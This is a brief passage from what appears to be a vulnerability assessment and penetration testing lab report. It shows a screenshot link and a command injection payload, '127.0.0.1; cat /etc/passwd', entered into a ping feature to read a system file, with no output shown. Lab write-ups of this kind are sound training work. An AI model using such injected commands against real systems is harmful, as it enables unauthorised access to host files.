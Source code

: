 
![ScreenShot](https://raw.githubusercontent.com/Shubhk0/cyart-vapt-team/refs/heads/main/week2/Practical/screenshots/Capstone%20Project%20Full%20VAPT%20Cycle-1755856142910.jpeg)


#### Command Injection Exploitation

I achieved command execution through the ping functionality:



```
127.0.0.1; cat /etc/passwd
```

output:
 


